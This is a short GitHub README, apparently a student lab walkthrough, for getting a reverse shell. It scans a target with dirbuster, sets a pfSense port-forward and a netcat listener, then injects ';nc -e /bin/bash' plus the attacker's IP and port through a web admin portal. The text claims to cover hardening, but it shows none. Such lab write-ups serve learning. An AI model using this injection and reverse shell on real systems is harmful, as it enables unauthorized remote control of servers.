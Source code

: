 <h1>Revere Shell Walkthrough</h1>


<h2>Description</h2>
This project consist of a step-by-step walkthrough on how to capture and harden a secure shell. 
<br />


<h2>Languages and Utilities Used</h2>
 
- <b>Dirbuster</b>

<h2>Environments Used </h2>

- <b>Kali Linux</b> 

<h2>Program walk-through:</h2>

<p align="center">
	Scan the website using “dirbuster -v (insert I.P address)	That command will bring you into dirbuster GUI 
: <br/>
<img src="https://i.imgur.com/kO7F7Ll.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>

<p align="center">
	1.	Set up FIREWALL rule in your own network.
2.	In this Walkthrough we are using pfSense so this is what it will look like.
: <br/>
<img src="https://i.imgur.com/g4YOEXD.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>

<p align="center">
1.Set up a port listener (this is what catches your shell)
 2. Port forwarding rule ( this will forward the shell from router to kali machine)
  3. Payload (this will send the reverse shell)
The main tool used for a reversed shell will be (NetCat) command: nc -lvp (whatever port number you want to listen)
: <br/>
<img src="https://i.imgur.com/1S5vdWX.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>

<p align="center">
we will go to the TARGET IP ADRRES and because we scanned the IP address already using dirbuster we know to use 192.168.122.47/console/. This will take us to the “ADMIN PORTAL”

<p align="center">
<img src="https://i.imgur.com/uTcgbp0.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>

<p align="center">
From the Admin portal we will run the command “ ;nc -e /bin/bash( YOUR NETWORKS IP ADDRESS) and the port you are listening to. This will send the Shell to your network and the website should bounce and the terminal should look like this.
<p align="center">
<img src="https://i.imgur.com/JZkRFDS.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>

<p align="center">
SHELL VALIDATION
<p align="center">
  <img src="https://i.imgur.com/WCgSyhl.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>

  <p align="center">
  HOPE THIS HELPS!
  
